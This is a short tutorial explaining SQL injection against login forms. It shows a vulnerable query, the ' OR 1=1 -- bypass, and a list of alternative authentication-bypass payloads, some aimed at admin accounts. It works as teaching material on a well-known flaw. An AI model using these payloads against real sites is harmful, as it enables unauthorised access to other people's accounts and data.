 ## SQL Injection
SQL makes queries into a database with statements like:
```sql
SELECT * FROM users WHERE username='chris' AND password='letmein';
```
This selects all entries from a database table where the username and password match those supplied.

If the user inputted data (the username and password entered in a login box, for example) is passed directly to this query, then what the user enters can manipulate the query.

The basic injection used for hacking the SQL is to enter `' OR 1=1; --` in the username box on the login screen and anything in the password, which would change the above select query to:
```sql
SELECT * FROM users WHERE username='' OR 1=1; -- ' AND password='letmein';
```
This injection first closes the single quote for the `username=''` part, then adds `OR 1=1` (`1=1` is always true in SQL) and then comments out the rest of the line using `--`, so the password has no effect. This updated query will return every row in the `users` table.

If the code checks that at least one row is returned, then this could give you entry to a site.

### Alternative injections to try
Some MySQL databases don't treat the `--` as a single line comment. Use:
```
' OR 1=1; #
```
Try without the semi-colon:
```
' OR 1=1 --
```
Quote the `1` digits:
```
' OR '1'='1' --
```
Use `LIKE` with the wildcard `%` to also match everything:
```
' OR username LIKE '%' --
```
Use `LIKE` with a specific username, which may give you elevated access, as the code may use a returned ID from the table to identify the logged in user:
```
' OR username LIKE 'admin' --
```
Or with a wildcard to get `admin`, `admins`, `administrator`, etc.:
```
' OR username LIKE 'adm%' --
```
